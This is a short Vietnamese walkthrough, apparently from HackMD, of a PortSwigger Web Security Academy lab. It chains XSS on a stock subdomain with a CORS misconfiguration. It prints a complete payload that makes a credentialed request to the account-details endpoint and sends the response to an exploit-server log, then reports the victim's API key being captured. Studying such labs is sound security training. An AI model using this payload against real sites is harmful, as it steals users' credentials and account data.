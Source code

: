 >URL Encode toàn bộ payload và truyền vào `productId`: ![image](https://hackmd.io/_uploads/r1SQTRJUA.png)

>Tại exploit-server, truyền payload sau:
```
<script>
document.location="http://stock.0ab200be034dc7258036e969001b007c.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab200be034dc7258036e969001b007c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a2200150379c7888052e8a701dc0007.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"</script>
```
![image](https://hackmd.io/_uploads/BJhRxXeIA.png)


>Thử "View exploit" thì kết quả nhận được là lab không hỗ trợ HTTP: ![image](https://hackmd.io/_uploads/SJrpXWxUR.png)

>Lúc này, ta sẽ sửa payload lưu trên exploit server từ http => https và thử lại. Lần này thì server đã xử lí và trả về api key: ![image](https://hackmd.io/_uploads/ryiZNZl8A.png)

>Sau khi thử nghiệm thành công, chọn "Deliver exploit to victim" để gửi payload tới nạn nhân, xem lại log thì thấy API  Key của nạn nhân đã được truyền về exploit server của ta: ![image](https://hackmd.io/_uploads/HyQplmgIA.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rJqgbQeLC.png)
